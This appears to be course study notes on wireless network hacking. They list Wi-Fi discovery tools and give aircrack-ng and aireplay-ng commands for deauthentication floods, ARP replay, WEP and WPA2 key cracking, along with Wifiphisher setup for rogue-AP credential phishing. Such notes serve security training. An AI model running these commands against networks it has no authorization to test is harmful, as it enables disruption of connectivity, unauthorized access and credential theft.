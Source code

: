 # Module 16 - Hacking Wireless Networks #

## Footprint a Wireless Network ##
To footprint a wireless network, one must identify the BSS (Basic Service Set) or Independent BSS (IBSS) provided by the Access Point (AP). This is done with the help of the wireless network's SSID, which can be used to establish an association with the AP to compromise its security.

### Find Wi-Fi Networks in Range ###
#### NetSurveyor ####
NetSurveyor is an 802.11 network discovery tool that gathers info about nearby wireless APs in real-time and displays it in useful ways. It reports the SSID for each wireless network detected, along with the channel used by the AP servicing that network, signal strength, the BSSID (MAC Address), the encryption used...

It can be found at: `Module 16 Hacking Wireless Networks\Wi-Fi Discovery Tools\`.

#### Other Wi-Fi Discovery Tools ####
* inSSIDer Plus (https://www.metageek.com)
* Wi-Fi Scanner (https://lizardsystems.com)
* Acrylic Wi-Fi Home (https://www.acrylicwifi.com)
* WirelessMon (https://www.passmark.com)
* Ekahau HeatMapper (https://www.ekahau.com)


- - - -

## Perform Wireless Traffic Analysis ##
Wireless traffic analysis helps in determining the appropriate strategy for a successful attack. Wi-Fi protocols are unique at Layer 2, and traffic over the air is not serialized, which makes it easy to sniff and analyze wireless packets.

### Find Wi-Fi Networks and Sniff Wi-Fi Packets ###
#### Wash ####
Wash is a utility that can be used to identify WPS-enabled APs in the target wireless network. It also enables you to check if the AP is in a locked or unlocked state (most WPS-enabled routers automatically lock after five or more unsuccessful login attempts).

`wash -i <interface>`

#### Wireshark ####
Wireshark can be used in monitor mode to capture wireless traffic.


- - - -

## Perform Wireless Attacks ##
There are several different types of Wi-Fi attacks that attackers use to eavesdrop on wireless network connections:

* Fragmentation Attack: When successful, it can obtain 1.500 bytes of PRGA (Pseudo Random Generation Algorithm).
* MAC Spoofing Attack
* Disassociation Attack: The attacker makes the victim unavailable to other wireless devices by destroying the connectivity between the AP and the client.
* Deauthentication Attack: The attacker floods the station with forged deauthentication packets to disconnect users from an AP.
* Man-in-the-Middle Attack
* Wireless AP Poisoning Attack
* Rogue Access Points: Wireless AP that an attacker installs on a network without authorization.
* Evil Twin: A fraudulent wireless AP that pretends to be a legitimate one. 
* Wi-Jacking Attack: Method used to gain access to an enormous number of wireless networks.

### Find Hidden SSIDs ###
#### Aircrack-ng ####
`airmon-ng start <interface>` - To put the interface in monitor mode. If there are processes that could cause trouble: `airmon-ng check kill` and then start it again 

`airodump-ng <interface>` - To display the nearby APs and clients (stations)

`airodump-ng --bssid <BSSID of the target AP> <interface>` - To capture IV packets from the target AP. A list of connected 'stations' will appear.

`aireplay-ng --deauth <N of deauth packets - Ex. 15> -a <BSSID of the target AP> -c <BSSID of the victim (station)> <interface>` - To send 'De-Auth' packets to a victim

### Cracking a WEP Network ###
#### Wifiphisher ####
Wifiphisher is a Rogue AP framework for conducting red team engagements or Wi-Fi security testing. It can be further used to mount victim-customized web phishing attacks against the connected clients in order to capture credentials or infect the victim stations with malware.

First, install the dependencies: `apt-get install libnl-3-dev libnl-genl-e-dev`, `apt-get install libssl-dev` (or `dpkg --configure -a` before if it doesnt work). Then, the 'Rogue AP' repository can be downloaded: `git clone https://github.com/wifiphisher/roguehostapd`. Or in Windows at: `Module 16 Hacking Wireless Networks\GitHub Tools\`. Followed by installing it with `python setup.py install`. Finally, download Wifiphisher: `git clone https://github.com/wifiphisher/wifiphisher`. Or in Windows at: `Module 16 Hacking Wireless Networks\GitHub Tools\`. Followed by installing it with `python setup.py install`.

`wifiphisher --force-hostapd` - To launch Wifiphisher > Select the target AP and the desired Phishing Scenario > The attack will launch

#### Aircrack-ng #### 
`airmon-ng start <interface>` - To put the interface in monitor mode. If there are processes that could cause trouble: `airmon-ng check kill` and then start it again 

`airodump-ng <interface> --encrypt wep` - To display only the available nearby WEP networks

First, test if the AP is susceptible to injection attacks: `aireplay-ng -9 -e <SSID of the target AP> -a <BSSID of the target AP> <interface>`. If the message 'Injection is working!' appears, then we can continue.

Continued, let's start capturing Initialization Vector (IV) packets from the AV: `airodump-ng --bssid <BSSID of the target AP> -c <Channel of the AP> -w <Output dump filename> <interface>`.

In order for us to be sure that we capture IV packets, let's generate ARP traffic: `aireplay-ng -3 -b <BSSID of the target AP> -h <BSSID of the victim station> <interface>`. Wait until the number of sent ARP packets reached 15.000-20.000.

` aircrack-ng '<.cap file with captured WEP Initiation traffic>' ` - To crack the WEP key with the captured IV traffic

### Cracking a WPA Network ###
#### Fern Wifi Cracker ####

### Cracking a WPA2 Network ###
#### Aircrack-ng ####
``` aircrack-ng -a2 -b <BSSID of the Victim in the Captured File> -w <Password Wordlist File Path> '<Wireshark .cap File with Captured WPA Initiation Traffic>' ```

### Create a Rogue Access Point ###
#### MANA Toolkit ####

